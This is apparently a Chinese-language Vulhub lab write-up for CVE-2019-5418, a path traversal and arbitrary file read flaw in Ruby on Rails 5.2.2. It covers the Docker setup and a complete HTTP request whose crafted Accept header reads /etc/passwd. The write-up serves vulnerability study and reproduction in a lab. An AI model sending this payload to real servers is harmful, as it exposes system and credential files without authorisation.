


Ruby On Rails 路径穿越与任意文件读取漏洞CVE-2019-5418¶
漏洞描述¶
在控制器中通过render file形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入Accept: ../../../../../../../../etc/passwd{{头来构成构造路径穿越漏洞，读取任意文件。
参考链接：
- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
- https://xz.aliyun.com/t/4448
环境搭建¶
Vulhub执行如下命令编译及启动Rail On Rails 5.2.2：
docker-compose build
docker-compose up -d
环境启动后，访问http://your-ip:3000即可看到Ruby on Rails的欢迎页面。

漏洞复现¶
访问http://your-ip:3000/robots可见，正常的robots.txt文件被读取出来。
利用漏洞，发送如下数据包，读取/etc/passwd：
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
成功读取/etc/passwd：
